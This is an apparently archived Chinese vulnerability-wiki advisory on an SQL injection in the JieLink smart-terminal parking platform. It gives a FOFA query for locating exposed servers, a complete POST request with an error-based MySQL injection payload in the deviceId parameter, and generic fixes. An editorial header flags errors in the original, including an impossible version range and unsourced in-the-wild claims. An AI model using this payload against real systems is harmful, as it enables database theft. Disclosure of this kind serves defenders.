

# 捷顺jielink智能终端操作平台前台存在通用SQL注入漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：JieLink智能终端管理Web平台
- 文献类型：SQL注入预警
- 版本、权限及部署边界：GetParkController deviceId参数MySQL报错注入，示例DefaultSystem Cookie非明确登录证明
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 影响区间v2.7.0<=产品<v2.7.0为空集，明确元数据逻辑错误
2. 完整复现步骤要有截图的模板指令残留，标题重复漏洞，fofa残缺
3. 未经认证需单独验证，已知在野/广泛影响无出处
4. 官方修复其实通用建议；将extractvalue当业务合法函数需过滤、ORM自动保证安全不准确，核心应参数化并限标识符
5. 缺产品构建与厂商补丁，响应只截图；迁业务Web应用

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/SourByte05/Vulnerability-Wiki-PoC>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

# 漏洞描述

捷顺jielink智能终端操作平台是一款国产软件，它拥有较强的工作流引擎和多种协同办公功能，被广泛应用于物业管理领域，存在sql注入漏洞，可泄露相关个人敏感信息。

# 影响范围

v2.7.0 <= jielink智能终端 < v2.7.0

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | [已公开] | [已公开] | [已知] |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 【高危】 |
| 影响面 | 【广】 |
| 攻击者价值 | 【中】 |
| 利用难度 | 【低】 |

# 漏洞复现

完整的复现步骤，要有漏洞复现截图

FOFA：title="JieLink+智能终端操作平台"

POC/EXP：

POST /mobile/Remote/GetParkController HTTP/1.1
Host: 127.0.0.1:8090
Content-Length: 66
Cache-Control: max-age=0
Origin: http://127.0.0.1:8090
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1:8090/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: DefaultSystem=JieLink
Connection: close

deviceId=1'and/**/extractvalue(1,concat(char(126),database()))and'

# 修复方案

**官方修复：**

1、使用参数化查询：最好的修复方式是使用参数化查询而不是直接拼接 SQL 查询字符串。参数化查询能够防止用户输入作为查询条件直接传递到数据库，从而避免了注入漏洞。

2、输入验证和过滤：对于用户输入的数据进行验证和过滤，确保输入的数据符合预期的格式和范围。在执行 extractvalue 函数之前，应该对输入进行严格的验证和过滤。

3、最小权限原则：确保数据库连接使用的是最小权限原则，即数据库连接只具有执行必要操作的最小权限，而不是拥有对整个数据库的完全访问权限。

4、使用ORM框架：如果可能的话，考虑使用ORM（对象关系映射）框架，这些框架会自动处理输入参数，避免了直接操作数据库所带来的风险。

5、关注官方发布的修复方式及补丁。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
